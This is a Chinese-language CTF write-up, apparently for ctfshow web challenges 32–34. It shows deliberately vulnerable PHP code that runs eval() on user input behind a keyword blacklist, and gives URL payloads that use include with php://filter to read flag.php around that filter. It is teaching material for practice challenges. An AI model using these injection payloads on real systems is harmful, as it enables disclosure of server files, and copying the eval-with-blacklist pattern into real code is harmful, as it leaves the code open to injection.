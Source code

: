 emmmmm,过滤了括号

![](http://img.npfs06.top/20210225161206.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



群里大佬的图

这里直接用include 进行无括号包含即可

解法一：
payload：?c=include $_GET["npfs"] ?>&npfs=php://filter/read=convert.base64-encode/resource=flag.php

解法二：
payload：

?c=include $_POST[npfs] ?>
 npfs=php://filter/read=convert.base64-encode/resource=flag.php



## web 33

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了单双引号，直接用数组作为参数即可绕过

解法一：
?c=include $_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

解法二：
?c=include $_POST[1]?>
1=php://filter/read=convert.base64-encode/resource=flag.php



## web 34

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
